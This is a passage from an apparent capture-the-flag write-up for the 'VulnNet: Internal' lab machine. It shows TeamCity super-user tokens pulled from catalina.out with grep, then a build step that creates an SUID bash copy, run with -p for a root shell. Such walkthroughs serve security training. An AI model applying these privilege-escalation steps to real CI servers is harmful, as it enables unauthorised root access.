 While enumerating the machine found a directory named `TeamCity` on the root of the filesystem. found the authentication token inside log file `/TeamCity/logs/catalina.out`.
```bash
sys-internal@vulnnet-internal:/TeamCity/logs$ cat catalina.out | grep -i "authentication"
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1680136214794143921 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1680136214794143921 (use empty username with the token as the password to access the server)
```

now let's login in the server using the token we have.


### Getting Root Shell

After logging in Create a new project.
![](/assets/vulnnet_internal/images/Pasted image 20210516012413.png)

click on `manually` and fill in the information.
![](/assets/vulnnet_internal/images/Pasted image 20210516012530.png)

now click on `Create build configuration`
![](/assets/vulnnet_internal/images/Pasted image 20210516012630.png)

again click on `manually` and fill in the information then click on `create`
![](/assets/vulnnet_internal/images/Pasted image 20210516012717.png)

now head to the build configuration you created in my case it's `RCE`
![](/assets/vulnnet_internal/images/Pasted image 20210516013024.png)

click on `Edit Configuration Settings`
![](/assets/vulnnet_internal/images/Pasted image 20210516013107.png)

click on `Build Steps` from the sidebar menu and then click on `Add build step`
![](/assets/vulnnet_internal/images/Pasted image 20210516013133.png)

now fill in the info as shown in the image and click on save.
![](/assets/vulnnet_internal/images/Pasted image 20210516013409.png)

finally click on `run` to run the build script.
![](/assets/vulnnet_internal/images/Pasted image 20210516013443.png)

Now go back to the terminal and check, we have the copy of `/bin/bash` as `.rootshell` with `SUID` bit set to it.
```bash
sys-internal@vulnnet-internal:~$ ls -a
.              .cache   Documents   .mozilla  .rediscli_history          .thumbnails    .xsession-errors
..             .config  Downloads   Music     .rootshell                 user.txt       .xsession-errors.old
.bash_history  .dbus    .gnupg      Pictures  .ssh                       Videos
.bash_logout   Desktop  linpeas.sh  .profile  .sudo_as_admin_successful  .Xauthority
.bashrc        .dmrc    .local      Public    Templates                  .xscreensaver
sys-internal@vulnnet-internal:~$ ./.rootshell -p
.rootshell-4.4# id
```